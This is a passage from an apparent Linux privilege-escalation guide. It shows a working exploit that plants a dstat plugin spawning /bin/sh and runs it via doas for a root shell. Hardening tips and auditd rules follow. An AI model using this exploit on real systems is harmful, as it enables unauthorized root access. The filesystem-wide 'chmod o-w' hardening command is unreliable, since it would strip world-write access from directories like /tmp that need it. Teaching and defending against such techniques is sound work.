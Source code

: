 ### Exploitation
```bash
# Create malicious dstat plugin
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_exploit.py

# Execute with doas
doas /usr/bin/dstat --exploit

# Alternative method using GTFOBins reference
mkdir -p ~/.dstat
echo 'import os; os.execv("/bin/sh", ["sh"])' > ~/.dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

---

## Prevention and Hardening

### Secure Configuration Practices
```bash
# Proper doas configuration
# Use specific commands only, avoid wildcards
permit nopass user as root cmd /usr/bin/specific-binary arg1 arg2

# Secure sudo configuration
# Avoid NOPASSWD where possible
# Use command aliases for complex commands
# Regularly audit sudo rules

# File permission hardening
# Remove world-writable permissions
find / -type d -perm -002 -exec chmod o-w {} \;
find / -type f -perm -002 -exec chmod o-w {} \;
```

### Monitoring and Detection
```bash
# Monitor privilege escalation attempts
auditctl -w /etc/passwd -p wa -k passwd_changes
auditctl -w /etc/shadow -p wa -k shadow_changes
auditctl -w /etc/sudoers -p wa -k sudo_changes

# Log sudo/doas usage
# Configure proper logging in /etc/sudoers or doas.conf

# File integrity monitoring
# Use tools like AIDE or Tripwire to monitor critical files
```

---

*Always ensure you have proper authorization before attempting privilege escalation on any system. These techniques should only be used for legitimate security testing and system administration purposes.*